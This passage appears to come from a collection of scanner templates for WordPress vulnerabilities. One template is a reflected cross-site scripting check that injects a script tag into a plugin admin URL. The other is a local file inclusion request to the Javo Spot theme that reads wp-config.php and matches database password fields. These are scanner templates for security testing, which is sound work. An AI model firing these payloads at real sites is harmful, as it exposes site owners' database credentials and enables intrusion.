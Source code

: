 ```
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=pmxe-admin-manage&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. manage&a\">\<script>alert(1)\</script>">
    2. Manage Exports
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Javo Spot Premium Theme - Local File Inclusion
## Description
- WordPress Javo Spot Premium Theme is vulnerable to local file inclusion that allows remote unauthenticated attackers access to locally stored file and return their content.
- severity - high
- tags - wordpress,wp-theme,lfi,wp,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-admin/admin-ajax.php?jvfrm_spot_get_json&fn=../../wp-config.php&callback=jQuery
### Matchers

**Type - word**
- part - body
- words
    1. DB_NAME
    2. DB_PASSWORD
- condition - and
